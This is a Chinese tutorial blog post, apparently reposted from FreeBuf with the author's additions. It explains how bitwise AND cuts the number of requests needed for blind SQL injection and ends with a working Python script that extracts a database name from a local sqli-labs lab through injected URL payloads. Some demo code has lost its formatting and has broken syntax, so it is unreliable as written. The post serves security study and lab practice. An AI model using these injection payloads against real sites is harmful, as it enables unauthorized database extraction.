



用位运算提高你的sql盲注
SQL 注入是当前 Web 安全中最常见的安全问题之一，其危害性也比较大，众多白帽子在渗透测试过程中往往会首先着重进行 SQL 注入的测试。盲注是 SQL 注入的重要的技术之一，在现实中的 SQL 注入案例中，往往很难将注入的结果直接回显出来。因此，盲注也就成为了 SQL 注入必不可少的手段之一。本文想分享一个如何大大提升盲注效率的技巧。
与或运算
与或运算，操作符分别为 & 以及 |，大多数人应该会在实际开发过程中很少使用到与或运算。如果你之前学过计算机组成原理，里面讲了很多关于补码、反码以及各种运算。当然，我们这里不需要理解那么多知识，这里我们只需要理解与或运算就可以了。
与运算
运算规则： 0 & 0 = 0; 0 & 1 = 0; 1 & 0 = 0; 1 & 1 = 1 即：两位同时为“1”，结果才为“1”，否则为0
或运算
运算规则：0 | 0 = 0; 0 | 1 = 1; 1 | 0 = 1; 1 | 1 = 1 即：参加运算的两个对象只要有一个为1，其值为1 假设参与运算的2个数据，一个数据是1，那么另外一个的值就可以确定了，假设另外一个值为 x： 1 & x = 0, x = 0 1 & x = 1, x = 1 所以通过与运算，假设其中的一个数据是已知的，那么另外的值就很好确定了。通过与运算盲注
通过与运算盲注
看到这里，你可能还是一头雾水，与运算和盲注有啥关系？假设一个数字 104，我们可以将它转化为二进制，即 104 = 64 + 32 + 8 = 2 ^ 6 + 2 ^ 5 + 2 ^ 3，我们可以将它以比特位的形式将它表示出来：

那么我们可以将104与1，2，4，8，16，32，64，128进行与运算，就可以获得每个比特位上的数据。与1进行运算

通过这样的方式，我们就可以确定104每个比特位上的数据是什么。那这和我们SQL盲注又有什么关系呢？对于SQL盲注，我们往往会使用到 substring，我们会对结果的每一个字符来进行枚举，将字符与可能字符来进行比较，这样枚举的效率可能会不太好，往往需要比较很多次。对于一个 acsii 字符，其范围是在0-127之间，那么只需要7个比特位就足够了。那么如果使用与运算的方式，我们只需要比较7次就可以确定这个字符的 ascii 码。通过与运算的方式，可以显著地提高效率，减少比较次数，而且往往字符越多，提升的效果就越明显。
Talk is cheap, show me the code. 这里我们通过 python 的方式来实现：
def compute_by_and(word):
for ele in word:
ele_b, times = get_character(ele)
print(f"Guess the value {ele_b}:{chr(ele_b)} with {times} times")
def get_character(char):
char_b = ord(char)
value = 0
times = 0
for i in range(7):
times = times + 1
if char_b & (2 i):
value = value + (2 i)
return value, times
if name == "main":
compute_bybinary("hello")

很明显，每一个字符仅仅只需要7次比较就可以知道这个字符是什么字符了。如果没有数据支撑，这个结果可能对比不是很明显，那我们可以通过其与普通的枚举方式来进行对比，我们选取3个字符来进行对比，myapp,myapp_card,myapp_card_perform。我们枚举的方式选取 string.printable，这个也包含了所有的 ascii 字符。
import string
def brute_force(word):
times = 0
for ele in word:
for c in string.printable:
times = times + 1
if ele == c:
break
print(f"Brute force {word} with {times} times")
if name == "main":
brute_force("hello_world")

| myapp | myapp_card | myapp_card_perform | |
|---|---|---|---|
| 枚举 | 121 | 276 | 526 |
| 与运算 | 35 | 70 | 126 |
总结通过上面的对比，我们可以看出在SQL盲注中，如果通过与运算来进行盲注，可以大大提升盲注的效率，减少请求的次数，这对于我们的测试的帮助意义还是比较大的。
本文原创作者：madneal@平安银行应用安全团队，本文属于FreeBuf原创奖励计划，未经许可禁止转载
原文出处：https://www.freebuf.com/articles/web/231741.html
我的完善
看了上面的文章感觉很厉害，那么我们怎么加入到实际的sql注入里呢，
下面直接贴代码
以sqli-labs 为靶机 假设已经知道数据库名的长度为8位，那么直接传一个8进去，56次就可以注入出来
getDataBases 位运算注入
getDataBases2 默认的通过比较ascii 一个一个字符注入
import requests
def getDataBases(num): #num 表示数据库的长度
word=""
times=0
for i in range(1,num+1):
value=0
for j in range(7):
times+=1
url=f"http://localhost/sqli-labs-master/Less-8/?id=1%27+and+ord(substr(database(),{i},1))%26{2**j}%23"
#print(url)
content=requests.get(url).text
#print(content)
if "You are in" in content:
value+=2**j
print(f"第{i}个字母是:{chr(value)}")
word+=chr(value)
print(f"用了{times}次")
return word
def getDataBases2(num): #num 表示数据库的长度
word=""
times=0
for i in range(1,num+1):
for j in range(48,123):
times+=1
url=f"http://localhost/sqli-labs-master/Less-8/?id=1%27+and+ord(substr(database(),{i},1))%3d{j}%23"
content=requests.get(url).text
if "You are in" in content:
print(f"第{i}个字母是:{chr(j)}")
word+=chr(j)
break
print(f"用了{times}次")
return word
if __name__ == "__main__":
print(getDataBases(8))